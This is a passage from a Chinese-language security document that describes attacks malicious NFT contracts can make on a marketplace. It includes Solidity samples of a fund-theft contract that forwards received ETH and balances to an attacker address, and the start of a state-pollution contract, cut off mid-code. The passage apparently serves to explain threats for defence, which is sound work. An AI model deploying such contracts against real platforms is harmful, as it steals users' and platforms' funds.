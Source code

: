 ### 🚨 **4. 资金窃取攻击（Fund Theft）**

**攻击原理：**
恶意合约在转移过程中窃取或重定向资金。

**恶意合约示例：**
```solidity
contract FundTheftNFT {
    mapping(uint256 => address) public owners;
    address public attacker;
    
    constructor(address _attacker) {
        attacker = _attacker;
    }
    
    function ownerOf(uint256 tokenId) external view returns (address) {
        return owners[tokenId];
    }
    
    function transferFrom(address from, address to, uint256 tokenId) external {
        owners[tokenId] = to;
        
        // 尝试窃取市场合约的资金
        if (address(this).balance > 0) {
            payable(attacker).transfer(address(this).balance);
        }
        
        // 或者尝试窃取其他代币
        // ERC20 token = ERC20(someTokenAddress);
        // token.transfer(attacker, token.balanceOf(address(this)));
    }
    
    // 接收ETH的回调函数
    receive() external payable {
        // 直接转发给攻击者
        payable(attacker).transfer(msg.value);
    }
}
```

**危害：**
- 直接窃取市场合约资金
- 窃取其他用户的代币
- 导致平台资金损失
- 影响平台运营

### 🚨 **5. 状态污染攻击（State Pollution）**

**攻击原理：**
恶意合约故意修改重要状态变量，破坏合约逻辑。

**恶意合约示例：**
```solidity
contract StatePollutionNFT {
    mapping(uint256 => address) public owners;
    
    function ownerOf(uint256 tokenId) external view returns (address) {
        return owners[tokenId];
    }
    
    function transferFrom(address from, address to, uint256 tokenId) external {
        owners[tokenId] = to;
        
        // 尝试调用市场合约的内部函数（如果可见性设置不当）
        try IMarket(msg.sender).emergencyWithdrawNFT(1, address(this)) {
```